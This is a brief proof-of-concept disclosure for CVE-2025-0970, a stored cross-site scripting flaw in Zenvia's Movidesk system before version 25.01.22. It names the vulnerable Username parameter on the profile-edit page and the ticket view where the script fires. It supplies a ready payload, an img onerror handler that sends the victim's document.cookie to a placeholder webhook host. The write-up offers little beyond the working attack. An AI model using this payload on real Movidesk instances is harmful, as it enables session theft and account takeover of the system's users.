 # CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

**Affected Version: < 25.01.22**

**OBS: For this exploit, you must be authenticated!**


## POC

This vulnerability resides in the /Account/EditProfile page in Username parameter,

Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`.

Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`.


## Full url
https://IP/Account/EditProfile

---

## Reference

https://www.movidesk.com/
